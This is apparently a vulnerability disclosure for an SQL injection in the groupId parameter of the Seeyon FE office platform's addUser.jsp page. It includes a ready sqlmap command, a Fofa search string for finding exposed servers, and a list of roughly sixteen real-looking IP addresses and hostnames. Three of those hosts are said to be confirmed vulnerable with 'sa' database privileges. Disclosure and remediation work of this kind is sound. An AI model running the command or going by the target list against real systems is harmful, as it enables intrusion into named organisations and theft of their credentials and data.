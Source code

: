 # Vulnerability Title
Unauthorized SQL Injection Vulnerability in `security_addUser.jsp` Interface of Zhiyuan Interconnect FE Collaborative Office Platform

---

# Vulnerability Description
The FE Collaborative Office Platform developed by Beijing Zhiyuan Interconnect Software Co., Ltd. contains an SQL injection vulnerability in the `/security/addUser.jsp` interface. The input parameters are not properly filtered, allowing attackers to craft malicious requests that trigger the SQL injection vulnerability. Successfully exploiting this vulnerability can lead to the leakage of sensitive database information (such as user credentials and system configurations). Some verified affected systems have a database user with `sa` (system administrator) privileges, representing a high risk.

---

# Affected Products
+ **Affected Product**: Zhiyuan Interconnect FE Collaborative Office Platform (Note: Not the Feiqi Interconnect products).
+ **Verification Feature**: Potentially affected assets can be identified by searching `app="Zhiyuan Interconnect-FE"` using network space mapping tools like Fofa.

---

# Vulnerability Verification and Reproduction
## Vulnerable Location
```plain
http://[Target IP]:9090/security/addUser.jsp?groupId=1*
```

## Reproduction Tool
Automated detection with `sqlmap`:

```bash
sqlmap -u "http://Target IP:9090/security/addUser.jsp?groupId=1" --risk=3 --level=5
```

## Verified Cases
1. **Case 1**: `http://125.91.119.208:9090`
    - sqlmap confirms the vulnerability, user is `sa`![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238572202-99e329b3-bd19-4c56-b6c2-a44dae13ca8b.png)
    - Asset Proof ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238669827-795088ed-7453-46a7-9fdf-31a4add49046.png)
2. **Case 2**: `http://218.22.206.38:9090`
    - sqlmap confirms the vulnerability, user is `sa`![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238689161-33c95786-5c38-4baa-91b3-d7805bccdacd.png)
    - Asset Proof ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238702094-12c13534-69b6-4cbd-92a7-4b7dca41276c.png)
3. **Case 3**: `http://oa.avit.com.cn:9090`
    - sqlmap confirms the vulnerability, user is `sa`![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238712915-9934175f-3444-4b91-87b3-5f794b9f1a0f.png)
    - Asset Proof ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740238723703-c5645b32-5089-4b1b-b344-dd9b3451e6d8.png)

---

# Proof of Vulnerability
## Vendor Information
+ **Vendor Name**: 北京致远互联软件股份有限公司
+ **Vendor English Name**: BeiJing Seeyon Internet Software Corp.
+ **Vendor Website**: [www.seeyon.com](https://www.seeyon.com/)
+ **Vendor Email**: [zhangxiu@seeyon.com](mailto:zhangxiu@seeyon.com)
+ **Registered Capital**: 115.158439 million RMB
+ ![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740239688897-2baca77d-ce5c-42ca-820a-30439b29d463.png)

---

## Technical Details
+ **Technical Details**: The `groupId` parameter is not filtered, and attackers can inject characters (such as `1*`) to trigger database errors or blind injections.

---

# Remediation Suggestions
1. **Input Filtering**: Implement strict type checks (e.g., force conversion to integers) and filter special characters for parameters such as `groupId`.
2. **Prepared Statements**: Use parameterized queries instead of dynamically concatenating SQL queries.
3. **Least Privilege**: Reduce the privileges of the database connection accounts and avoid using high-privilege accounts like `sa`.
4. **Patch and Upgrade**: Contact Zhiyuan Interconnect for security updates or temporary fixes.

---

# Disclaimer
This report is intended for technical research and vulnerability remediation purposes only. It is prohibited for illegal use. Exploiting vulnerabilities to attack others' systems will result in legal consequences.

---

# Appendix
Other affected assets:

```plain
http://121.33.38.234:9090
http://218.22.206.38:9090
http://52.130.254.228:9090
http://218.17.117.55:9090
http://183.247.156.247:9090
http://121.31.124.114:9090
http://58.247.134.2:9090
http://219.146.165.142:9090
http://183.63.225.100:9090
http://120.82.178.130:9090
http://oa1.longlive.cn:9090
http://125.91.119.208:9090
http://oa.avit.com.cn:9090
http://14.145.142.223:9090
http://183.59.159.122:9090
https://221.7.151.135
```

